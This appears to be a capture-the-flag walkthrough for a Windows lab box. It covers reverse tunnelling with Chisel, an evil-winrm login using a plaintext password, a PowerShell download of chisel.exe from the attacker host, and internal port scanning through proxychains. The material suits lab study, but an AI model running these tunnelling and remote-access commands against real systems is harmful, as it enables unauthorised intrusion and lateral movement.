 PW: 147258369

## Tunneling: Chisel and Evil-Winrm

We can use nmap on the target to check, if port 5985 for a conenction, is open

- `nmap 172.16.22.1 -p 5985`

```
PORT     STATE SERVICE
5985/tcp open  unknown
```

Upload chisel and run:

- Kali: `sudo /opt/chisel/chisel server --reverse --port 5000`
- Target: `./chisel client 10.10.14.62:5000 R:5985:172.16.22.1:5985`

Now run evil-winrm

- `evil-winrm -i 127.0.0.1 -u 'matthew' -p '147258369'`
- `whoami`
cerberus\matthew

→ user.txt

# Priv Esc

- `netstat -ano`

We see lots of open ports. 

## Tunneling: Chisel with proxychians

[Reverse SOCKS Proxy Using Chisel — The Easy Way](https://vegardw.medium.com/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29)

Upload: `powershell -c iwr http://10.10.14.62/chisel.exe -outfile chisel.exe`

- Kali: `sudo /opt/chisel/chisel server --reverse --port 8002`
- Target: `./chisel.exe client 10.10.14.62:8002 R:socks`

Edit the last line in `/etc/proxychains4.conf`

socks5 127.0.0.1 1080

- `proxychains -q nmap -v -Pn -p- 172.16.22.1`

```html
Discovered open port 8888/tcp on 172.16.22.1
Discovered open port 445/tcp on 172.16.22.1
Discovered open port 443/tcp on 172.16.22.1
Discovered open port 139/tcp on 172.16.22.1
Discovered open port 80/tcp on 172.16.22.1
Discovered open port 135/tcp on 172.16.22.1
Discovered open port 53/tcp on 172.16.22.1
Discovered open port 9251/tcp on 172.16.22.1
```
